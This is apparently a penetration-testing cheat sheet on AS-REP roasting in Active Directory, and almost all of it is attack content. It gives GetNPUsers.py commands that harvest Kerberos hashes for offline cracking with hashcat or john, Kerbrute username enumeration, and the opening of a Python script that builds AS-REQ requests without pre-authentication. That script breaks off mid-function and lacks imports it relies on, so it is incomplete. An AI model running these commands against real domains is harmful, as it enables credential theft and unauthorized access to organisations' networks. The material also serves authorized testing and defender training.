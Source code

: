 #### Impacket GetNPUsers.py
**Basic Usage:**
```bash
# Domain user enumeration without authentication
GetNPUsers.py company.com/ -usersfile users.txt -format hashcat -outputfile hashes.txt

# With domain credentials for better enumeration
GetNPUsers.py company.com/username:password -request -format hashcat -outputfile hashes.txt

# Target specific user
GetNPUsers.py company.com/ -no-pass -usersfile single_user.txt
```

**Advanced Options:**
```bash
# Custom DC and different output formats
GetNPUsers.py company.com/ -usersfile users.txt -dc-ip 192.168.1.10 -format john

# Using Kerberos authentication
GetNPUsers.py company.com/username -k -no-pass -dc-ip dc.company.com
```

#### Kerbrute for User Enumeration
```bash
# Install kerbrute
go install github.com/ropnop/kerbrute@latest

# Username enumeration
kerbrute userenum --dc dc.company.com -d company.com users.txt

# AS-REP roasting specific users
kerbrute userenum --dc dc.company.com -d company.com --downgrade users.txt
```

#### Custom Python Scripts
```python
#!/usr/bin/env python3
import socket
from impacket.krb5.kerberosv5 import KerberosError
from impacket.krb5 import constants
from impacket.krb5.asn1 import AS_REQ, KERB_PA_PAC_REQUEST, AS_REP, seq_set, seq_set_iter
from impacket.krb5.types import KerberosTime, Principal

def request_asrep(username, domain, dc_ip):
    try:
        # Build AS-REQ without pre-authentication
        clientName = Principal(username, type=constants.PrincipalNameType.NT_PRINCIPAL.value)
        serverName = Principal('krbtgt/%s' % domain, type=constants.PrincipalNameType.NT_PRINCIPAL.value)
        
        asReq = AS_REQ()
        asReq['pvno'] = 5
        asReq['msg-type'] = int(constants.ApplicationTagNumbers.AS_REQ.value)
        asReq['req-body'] = seq_set(AS_REQ, 'req-body')
        asReq['req-body']['kdc-options'] = constants.encodeFlags(constants.KDCOptions.forwardable.value)
        asReq['req-body']['cname'] = clientName.components_to_asn1(asReq)
        asReq['req-body']['realm'] = domain
        asReq['req-body']['sname'] = serverName.components_to_asn1(asReq)
        asReq['req-body']['till'] = KerberosTime.to_asn1(datetime.datetime(2037, 12, 31, 23, 59, 59))
        asReq['req-body']['rtime'] = KerberosTime.to_asn1(datetime.datetime(2037, 12, 31, 23, 59, 59))
        asReq['req-body']['nonce'] = random.getrandbits(31)
        asReq['req-body']['etype'] = (int(constants.EncryptionTypes.rc4_hmac.value),)
```